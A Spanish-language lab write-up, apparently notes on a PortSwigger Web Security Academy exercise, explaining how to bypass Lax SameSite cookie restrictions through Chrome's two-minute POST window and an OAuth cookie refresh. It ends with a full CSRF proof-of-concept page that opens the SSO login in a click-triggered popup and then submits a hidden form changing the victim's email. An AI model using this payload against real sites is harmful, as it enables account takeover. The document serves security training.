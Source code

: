 Las cookies con restricciones Lax SameSite normalmente no se envían en ninguna solicitud POST entre sitios, pero hay algunas excepciones.

Como se ha mencionado anteriormente, si un sitio web no incluye un atributo SameSite al establecer una cookie, Chrome aplica automáticamente las restricciones Lax de forma predeterminada. Sin embargo, para evitar romper los mecanismos de inicio de sesión único (SSO), en realidad no aplica estas restricciones durante los primeros 120 segundos en las solicitudes POST de nivel superior. Como resultado, hay una ventana de dos minutos en la que los usuarios pueden ser susceptibles a ataques cross-site.

Esta ventana de dos minutos no se aplica a las cookies que se establecieron explícitamente con el atributo SameSite=Lax.

Resulta poco práctico intentar programar el ataque para que se produzca dentro de esta breve ventana. Por otro lado, si puedes encontrar un gadget en el sitio que te permita forzar a la víctima a recibir una nueva cookie de sesión, puedes refrescar preventivamente su cookie antes de seguir con el ataque principal. Por ejemplo, completar un flujo de inicio de sesión basado en OAuth puede dar lugar a una nueva sesión cada vez, ya que el servicio OAuth no sabe necesariamente si el usuario sigue conectado al sitio objetivo.

Para activar la actualización de cookies sin que la víctima tenga que volver a iniciar sesión manualmente, necesitas utilizar una navegación de nivel superior, lo que garantiza que se incluyan las cookies asociadas a su sesión OAuth actual. Esto plantea un reto adicional porque entonces necesitas redirigir al usuario de vuelta a tu sitio para que puedas lanzar el ataque CSRF.

Alternativamente, puedes activar la actualización de cookies desde una nueva pestaña para que el navegador no abandone la página antes de que puedas realizar el ataque final. Un pequeño inconveniente con este enfoque es que los navegadores bloquean las pestañas emergentes a menos que se abran mediante una interacción manual. Por ejemplo, la siguiente ventana emergente será bloqueada por el navegador por defecto:

```c
window.open('https://vulnerable-website.com/login/sso');
```

Para evitar esto, puede envolver la declaración en un controlador de eventos onclick de la siguiente manera:

```c
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

De esta forma, el método window.open() sólo se invoca cuando el usuario hace clic en algún lugar de la página.

## LAB 

![20250723232318.png](20250723232318.png)


## LAB

Al iniciar el laboratorio nos encontraremos con el siguiente sitio web.

![20250726042050.png](20250726042050.png)

Al revisar la solicitudes, podemos observar que en `/` nos otorga una cookie con el sameSite por defecto (`Lax`)

![20250726043850.png](20250726043850.png)



al iniciar sesión nos llevara a otro sitio web, que es `/social-login` 

![20250726042107.png](20250726042107.png)

Luego de ingresar las credenciales observamos otro panel para la autorización de una cuenta social

![20250726043513.png](20250726043513.png)

Ahora analicemos la opción de cambio de email

![20250726043534.png](20250726043534.png)

Vemos en este aparado del código se encuentra la solicitud para el cambio/actualización de email

```html
<div id=account-content>
                        <p>Your username is: wiener</p>
                        <p>Your email is: <span id="user-email">pwned@evil.com</span></p>
                        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required type="email" name="email" value="">
                            <button class='button' type='submit'> Update email </button>
                        </form>
                    </div>
```

Además de que no se tienen ninguna protección de CSRF 

![20250726044452.png](20250726044452.png)

Con la información anterior, podemos crear una carga útil CSRF para actualizar la dirección de correo electrónico de la víctima.

Pero primero, necesitamos saber una cosa: podemos activar la actualización de cookies desde una nueva pestaña para que el navegador no abandone la página antes de que puedas realizar el ataque final. Un pequeño inconveniente con este enfoque es que los navegadores bloquean las pestañas emergentes a menos que se abran mediante una interacción manual.

Por ejemplo, la siguiente ventana emergente será bloqueada por defecto por el navegador:

```c
window.open('https://vulnerable-website.com/login/sso');
```

Para evitar esto, puede envolver la declaración en un controlador de eventos onclick de la siguiente manera:

```html
window.onclick = () => { 
    window.open('https://vulnerable-website.com/login/sso');
}
```

De esta forma, el método window.open() sólo se invoca cuando el usuario hace clic en algún lugar de la página.

Por lo que ahora, vamos a construir nuestra POC


```html
<html>
    <head>
        <title>POC</title>
    </head>
    <body>
        <form action="https://0a4d00cf03c4376a804eeec4003c0061.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned2@evil.com">
        </form>
        <p>Click Here!</p>
        <script>
            window.onclick = () => {
                window.open('https://0a4d00cf03c4376a804eeec4003c0061.web-security-academy.net/socal-login')
                setTimeout(updateEmail, 3000);
            }

            function updateEmail() {
                document.getElementsByTagName('form')[0].submit();
            }
        </script>
    </body>
</html>
```

Guardamos y enviamos a la victima.